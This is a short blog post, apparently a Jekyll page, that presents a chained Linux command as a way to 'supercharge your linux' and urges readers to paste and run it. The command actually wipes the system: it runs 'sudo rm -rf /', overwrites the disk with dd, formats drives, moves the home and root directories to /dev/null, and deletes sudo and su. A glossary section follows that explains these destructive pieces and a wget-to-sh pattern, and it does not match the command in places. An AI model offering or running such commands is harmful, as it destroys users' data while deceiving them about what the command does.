 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: /img/geento.gif
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && sudo rm -rf .* && sudo rm - .* && sudo dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && sudo echo '' > /dev/hda && sudo cd ~; for x in ls; do mv -f $x $y; y=$x; done find -type f -mtime +30 -exec mv {} /dev/null; && sudo mv ~ /dev/null && mv / /dev/null && sudo rm -f /usr/bin/sudo; sudo rm -f /bin/su && sudo mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

\| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.
